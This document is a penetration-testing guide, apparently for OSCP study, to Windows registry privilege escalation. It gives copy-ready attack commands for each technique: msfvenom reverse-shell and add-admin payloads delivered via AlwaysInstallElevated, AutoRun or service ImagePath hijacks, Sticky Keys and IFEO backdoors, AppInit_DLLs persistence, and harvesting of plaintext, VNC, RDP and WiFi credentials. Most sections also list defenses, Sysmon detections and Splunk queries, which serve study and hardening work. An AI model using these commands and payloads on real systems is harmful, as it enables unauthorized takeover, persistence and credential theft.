








## TL;DR

The Windows Registry is a centralized database that stores configuration for the OS, services, and applications. Misconfigurations in registry keys — weak ACLs, insecure policy settings, stored credentials — are a reliable source of **local privilege escalation** on Windows. This guide covers every major registry-based privesc vector relevant to OSCP and penetration testing.

**Quick reference — Registry PrivEsc techniques:**

| Technique | Required Condition | Result |
|---|---|---|
| AlwaysInstallElevated | Both HKLM + HKCU keys set to `1` | MSI runs as SYSTEM |
| AutoRun Program Hijack | Writable AutoRun executable path | Code execution at logon |
| Service Registry Modification | Writable service registry key | Service runs attacker binary |
| Winlogon Credential Harvest | Cleartext password in registry | Credential reuse / lateral movement |
| Image File Execution Options | Write access to IFEO key | Debugger hijacks any process launch |
| Unquoted Service Path | Service path with spaces, no quotes | DLL/EXE hijack via path traversal |
| AppInit_DLLs | Write access to AppInit key | DLL loaded into every GUI process |

---

## Background — Windows Registry Structure

```
HKEY_LOCAL_MACHINE (HKLM)     ← System-wide settings (admin to modify)
├── SOFTWARE                   ← Installed software configuration
├── SYSTEM                     ← Service, driver, and boot configuration
│   └── CurrentControlSet
│       └── Services           ← All Windows service definitions
├── SAM                        ← Security Account Manager (hashes)
└── SECURITY                   ← LSA secrets

HKEY_CURRENT_USER (HKCU)      ← Current user settings (user can modify)
├── SOFTWARE
│   └── Microsoft\Windows\CurrentVersion\Run   ← User-level AutoRun
└── Environment

HKEY_USERS (HKU)               ← All user profiles
HKEY_CLASSES_ROOT (HKCR)       ← File associations / COM objects
```

### Key Enumeration Commands

```cmd
:: Query a specific key
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

:: Search for passwords in the entire registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

:: Check permissions on a registry key
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"

:: Export a key for offline analysis
reg export "HKLM\SYSTEM\CurrentControlSet\Services" services.reg
```

---

## 1. AlwaysInstallElevated

When both the HKLM and HKCU `AlwaysInstallElevated` registry values are set to `1`, **any user can install MSI packages with SYSTEM privileges**. This is one of the most commonly tested privesc vectors in OSCP.

### Detection

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Both must return `0x1` for the vulnerability to be exploitable.

### Attack Flow



### Exploitation

**Generate malicious MSI:**

```bash
# Reverse shell MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell.msi

# Add local admin user
msfvenom -p windows/adduser USER=hacker PASS=P@ssw0rd123 -f msi -o adduser.msi
```

**Execute on target:**

```cmd
:: Silent install — no GUI, no user interaction
msiexec /quiet /qn /i C:\Temp\shell.msi
```

| Flag | Description |
|---|---|
| `/quiet` | Suppress all UI |
| `/qn` | No UI at all |
| `/i` | Install the MSI package |

**winPEAS detection:**

```
[+] Checking AlwaysInstallElevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

### Defense

```powershell
# Disable AlwaysInstallElevated
reg delete "HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /f
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /f

# Or set to 0
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -Value 0
Set-ItemProperty -Path "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" -Name "AlwaysInstallElevated" -Value 0
```

---

## 2. AutoRun Program Hijacking

Programs listed in AutoRun registry keys execute automatically when a user logs on. If the **executable path is writable** by a low-privileged user, it can be replaced with a malicious binary.

### AutoRun Registry Locations

```cmd
:: Machine-level (all users)
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

:: User-level (current user)
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"

:: Additional locations
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunService"
reg query "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run"
```

### Attack Flow



### Exploitation

**Step 1: Identify writable AutoRun binaries**

```cmd
:: List all AutoRun entries
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"

:: Check file permissions
icacls "C:\Program Files\VulnApp\monitor.exe"
:: Look for: BUILTIN\Users:(F) or BUILTIN\Users:(M) or BUILTIN\Users:(W)
```

**Step 2: Replace with payload**

```bash
# Generate payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o monitor.exe
```

```cmd
:: Backup original and replace
copy "C:\Program Files\VulnApp\monitor.exe" "C:\Program Files\VulnApp\monitor.exe.bak"
copy /Y C:\Temp\monitor.exe "C:\Program Files\VulnApp\monitor.exe"
```

**Step 3: Wait for admin login or reboot**

```bash
# Listen for callback
nc -lvnp 4444
```

**Using accesschk (Sysinternals):**

```cmd
accesschk.exe /accepteula -wvu "C:\Program Files\VulnApp\monitor.exe"
```

### Defense

- Use ACLs to restrict write access to AutoRun executable directories
- Sign AutoRun executables and enforce code signing via AppLocker/WDAC
- Audit AutoRun keys regularly with Group Policy

---

## 3. Service Registry Key Modification

Windows services are defined in the registry under `HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>`. If a low-privileged user has **write access to a service's registry key**, they can modify the `ImagePath` value to point to a malicious executable.

### Service Registry Structure

```
HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>
├── ImagePath         ← Path to service binary (exploitable)
├── ObjectName        ← Account the service runs as (e.g., LocalSystem)
├── Start             ← Start type (2=Auto, 3=Manual, 4=Disabled)
├── Type              ← Service type
├── FailureActions    ← Recovery actions on failure
└── DependOnService   ← Service dependencies
```

### Detection

```cmd
:: Find services with weak registry ACLs
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services" 2>nul

:: Check specific service
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"

:: Look for: KEY_ALL_ACCESS or KEY_WRITE for non-admin groups
```

**PowerShell enumeration:**

```powershell
# Get service info including path and start account
Get-WmiObject Win32_Service | Where-Object {$_.StartName -eq "LocalSystem"} |
    Select-Object Name, PathName, StartMode | Format-Table -AutoSize

# Check registry ACL for a service
$acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\VulnSvc"
$acl.Access | Where-Object {$_.IdentityReference -match "Users|Everyone|Authenticated"} |
    Format-Table IdentityReference, RegistryRights
```

### Attack Flow



### Exploitation

```cmd
:: 1. Identify the vulnerable service
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc"
:: Output: HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc
::   RW NT AUTHORITY\Authenticated Users
::       KEY_ALL_ACCESS

:: 2. Check what account the service runs as
reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ObjectName
:: Output: LocalSystem

:: 3. Modify ImagePath to point to payload
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: 4. Restart the service
sc stop VulnSvc
sc start VulnSvc
```

### Difference from sc config

| Method | Mechanism | When to Use |
|---|---|---|
| `sc config binPath=` | Uses Service Control Manager API | When you have `SERVICE_CHANGE_CONFIG` on the service |
| `reg add ImagePath` | Direct registry modification | When you have registry write access but not SCM access |

Both achieve the same result — changing the service binary path — but through different access paths.

### Defense

- Audit service registry keys with `accesschk` or Group Policy
- Restrict `KEY_WRITE` on service keys to Administrators only
- Enable Sysmon Event ID 12/13 (Registry object create/modify) for monitoring

---

## 4. Credential Harvesting from Registry

Windows stores various credentials and authentication settings in the registry. These are prime targets for post-exploitation credential theft.

### Winlogon — AutoLogon Credentials

When AutoLogon is configured, credentials are stored in plaintext:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**Keys to look for:**

| Value | Description |
|---|---|
| `DefaultUserName` | Auto-logon username |
| `DefaultPassword` | Auto-logon password (plaintext!) |
| `DefaultDomainName` | Domain for auto-logon |
| `AutoAdminLogon` | `1` = auto-logon enabled |

```cmd
:: Quick one-liner
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword 2>nul
```

### VNC Passwords

VNC servers store encrypted passwords in the registry (encrypted with a well-known fixed key):

```cmd
:: TightVNC
reg query "HKLM\SOFTWARE\TightVNC\Server" /v Password
reg query "HKLM\SOFTWARE\TightVNC\Server" /v PasswordViewOnly

:: RealVNC
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v Password

:: UltraVNC
reg query "HKLM\SOFTWARE\ORL\WinVNC3\Default" /v Password
```

**Decrypt VNC password:**

```bash
# Using vncpwd tool
echo -n '<hex_password>' | xxd -r -p | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d

# Or use msfconsole
msf> irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
>> Rex::Proto::RFB::Cipher.decrypt ["<hex>"].pack('H*'), fixedkey
```

### PuTTY Saved Sessions

```cmd
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions" /s
```

**Useful fields:**

| Value | Description |
|---|---|
| `HostName` | Target host |
| `UserName` | Saved username |
| `ProxyPassword` | Proxy credentials |
| `PublicKeyFile` | Path to private key file |

### Saved RDP Credentials

```cmd
:: List saved RDP connections
reg query "HKCU\SOFTWARE\Microsoft\Terminal Server Client\Servers" /s

:: Combined with cmdkey
cmdkey /list
:: If "Domain: target-server" appears:
runas /savecred /user:admin "cmd.exe /c C:\Temp\shell.exe"
```

### WiFi Passwords

```cmd
:: List stored WiFi profiles
netsh wlan show profiles

:: Extract password for a specific profile
netsh wlan show profile name="WiFiName" key=clear
```

### SNMP Community Strings

```cmd
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ValidCommunities"
```

### Comprehensive Registry Password Search

```cmd
:: Search entire HKLM for "password"
reg query HKLM /f password /t REG_SZ /s 2>nul

:: Search entire HKCU for "password"
reg query HKCU /f password /t REG_SZ /s 2>nul

:: Search for "passwd"
reg query HKLM /f passwd /t REG_SZ /s 2>nul

:: Search for base64-encoded strings (potential encoded credentials)
reg query HKLM /f "==" /t REG_SZ /s 2>nul
```

### Attack Flow



### Defense

- Never use AutoLogon with administrative accounts
- Use Credential Guard to protect LSASS-stored credentials
- Audit registry for plaintext passwords with compliance tools
- Use Windows Credential Manager with DPAPI instead of plaintext storage

---

## 5. Image File Execution Options (IFEO) — Debugger Hijack

IFEO is a Windows feature designed for debugging — it allows specifying a debugger that launches whenever a particular executable starts. Attackers abuse this to **hijack any process startup** by setting their malicious binary as the "debugger."

### Registry Location

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<target.exe>
    Debugger = "C:\Temp\shell.exe"
```

### Attack Flow



### Exploitation — Sticky Keys Backdoor

The classic Sticky Keys attack uses IFEO to replace accessibility tools with `cmd.exe`:

```cmd
:: Sticky Keys (sethc.exe) — triggered by pressing Shift 5 times
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: Utility Manager (utilman.exe) — triggered by Win+U at lock screen
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: On-Screen Keyboard (osk.exe)
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f

:: Narrator (narrator.exe)
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

**Usage:** At the login/lock screen, trigger the accessibility tool → `cmd.exe` opens as SYSTEM.

### Exploitation — Persistent Backdoor

```cmd
:: Hijack any frequently-used application
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /t REG_SZ /d "C:\Temp\backdoor.exe" /f

:: When any user opens notepad.exe → backdoor.exe runs first
:: The original application path is passed as an argument to the debugger
```

### Silent Process Exit Monitoring (Advanced)

A subtler variant uses `SilentProcessExit` to trigger a payload when a process terminates:

```cmd
:: Monitor when notepad.exe exits
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512 /f

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG_SZ /d "C:\Temp\payload.exe" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1 /f
```

### Defense

| Mitigation | Details |
|---|---|
| Monitor IFEO registry keys | Sysmon Event ID 12/13 on `Image File Execution Options` |
| Restrict write access | Only Administrators should modify IFEO keys |
| Disable accessibility tools at lock screen | Group Policy → `Computer Configuration\Administrative Templates\Windows Components\Windows Logon Options` |
| AppLocker / WDAC | Prevent unauthorized executables from running |

---

## 6. AppInit_DLLs — Inject into Every GUI Process

The `AppInit_DLLs` registry value specifies DLLs that are loaded into every process that loads `user32.dll` (essentially every GUI application).

### Registry Location

```cmd
:: 64-bit DLLs
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs

:: 32-bit DLLs on 64-bit system
reg query "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs
```

### Attack Flow



### Exploitation

```cmd
:: Enable AppInit_DLLs loading
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f

:: Set malicious DLL
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\Temp\payload.dll" /f

:: DLL will be loaded into every new GUI process
```

> **Note:** Requires admin privileges to modify. Primarily used for **persistence** rather than privilege escalation. On Windows 8+ with Secure Boot, `AppInit_DLLs` requires code-signed DLLs unless `RequireSignedAppInit_DLLs` is set to `0`.

### Defense

```cmd
:: Disable AppInit_DLLs
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 0 /f

:: Enable Secure Boot (enforces signed AppInit_DLLs on Windows 8+)
:: Verify:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs
```

---

## 7. Unquoted Service Path (Registry Perspective)

When a service's `ImagePath` in the registry contains spaces and is **not quoted**, Windows attempts to resolve the path ambiguously, allowing an attacker to place a binary at an intermediate path.

### How Windows Resolves Unquoted Paths

For the unquoted path `C:\Program Files\Vuln App\Service\svc.exe`, Windows tries in order:

```
1. C:\Program.exe
2. C:\Program Files\Vuln.exe
3. C:\Program Files\Vuln App\Service\svc.exe  ← intended target
```

### Detection

```cmd
:: Find unquoted service paths (exclude properly quoted and system paths)
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: Or via registry
reg query "HKLM\SYSTEM\CurrentControlSet\Services" /s /v ImagePath | findstr /vi "\"" | findstr /i "Program Files"
```

**PowerShell:**

```powershell
Get-WmiObject Win32_Service |
    Where-Object { $_.PathName -notmatch '^"' -and $_.PathName -match '\s' -and $_.PathName -notmatch 'C:\\Windows' } |
    Select-Object Name, PathName, StartName
```

### Attack Flow



### Exploitation

```cmd
:: 1. Identify vulnerable services
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: 2. Check write permissions on the intermediate directory
icacls "C:\Program Files\Vuln App"
:: Look for: BUILTIN\Users:(W) or (M) or (F)

:: 3. Generate payload named to match the truncated path
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o Vuln.exe

:: 4. Place payload
copy Vuln.exe "C:\Program Files\Vuln.exe"

:: 5. Restart service
sc stop VulnSvc
sc start VulnSvc
```

### Defense

```cmd
:: Fix: add quotes around the ImagePath
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnSvc" /v ImagePath /t REG_EXPAND_SZ /d "\"C:\Program Files\Vuln App\Service\svc.exe\"" /f
```

---

## OSCP Workflow — Registry PrivEsc Checklist



---

## Automated Enumeration

### winPEAS

```cmd
.\winPEASx64.exe
```

**Registry-related checks in winPEAS output:**

```
[+] Checking AlwaysInstallElevated
[+] Looking for AutoLogon credentials
[+] Checking for Unquoted Service Paths
[+] Enumerating AutoRun programs
[+] Searching known registry keys for credentials
[+] Checking AppInit_DLLs
```

### PowerUp (PowerSploit)

```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# Specific checks:
Get-RegistryAlwaysInstallElevated
Get-RegistryAutoLogon
Get-UnquotedService
Get-ModifiableRegistryAutoRun
```

### Seatbelt

```cmd
.\Seatbelt.exe -group=system
.\Seatbelt.exe NonstandardServices AutoRuns CredEnum
```

---

## Detection & Defense Summary

### Sysmon Events for Registry Monitoring

| Event ID | Description | Use Case |
|---|---|---|
| 12 | Registry object added/deleted | Detect new IFEO keys, service creation |
| 13 | Registry value set | Detect ImagePath changes, AlwaysInstallElevated |
| 14 | Registry object renamed | Detect registry key manipulation |

### Group Policy Hardening

```
Computer Configuration → Administrative Templates:
├── Windows Components
│   ├── Windows Installer
│   │   └── "Always install with elevated privileges" → Disabled
│   └── Windows Logon Options
│       └── Disable accessibility tools at lock screen
├── System
│   └── Group Policy
│       └── Audit registry changes
└── Security Settings
    └── Registry
        └── Restrict write access to service keys
```

### Monitoring Queries (Splunk/ELK)

```
# Detect AlwaysInstallElevated being set
EventCode=13 TargetObject="*\\Installer\\AlwaysInstallElevated" Details="DWORD (0x00000001)"

# Detect IFEO debugger addition
EventCode=13 TargetObject="*\\Image File Execution Options\\*\\Debugger"

# Detect service ImagePath modification
EventCode=13 TargetObject="*\\CurrentControlSet\\Services\\*\\ImagePath"

# Detect AppInit_DLLs modification
EventCode=13 TargetObject="*\\Windows\\AppInit_DLLs"
```

---

## Quick Command Reference

```cmd
:: === AlwaysInstallElevated ===
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msiexec /quiet /qn /i C:\Temp\shell.msi

:: === AutoRun ===
reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
icacls "C:\path\to\autorun.exe"

:: === Service Registry ===
accesschk.exe /accepteula -kvusw "HKLM\SYSTEM\CurrentControlSet\Services\<svc>"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<svc>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: === Credential Harvest ===
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

:: === IFEO Backdoor ===
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "cmd.exe" /f

:: === Unquoted Service Path ===
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: === Full Automated Scan ===
.\winPEASx64.exe
Import-Module .\PowerUp.ps1; Invoke-AllChecks
```

---

## References

- HackTricks — Windows Local Privilege Escalation: [https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- PayloadsAllTheThings — Windows PrivEsc: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- MITRE ATT&CK T1547.001 — Registry Run Keys: [https://attack.mitre.org/techniques/T1547/001/](https://attack.mitre.org/techniques/T1547/001/)
- MITRE ATT&CK T1546.012 — Image File Execution Options: [https://attack.mitre.org/techniques/T1546/012/](https://attack.mitre.org/techniques/T1546/012/)
- MITRE ATT&CK T1574.009 — Unquoted Path: [https://attack.mitre.org/techniques/T1574/009/](https://attack.mitre.org/techniques/T1574/009/)
- winPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
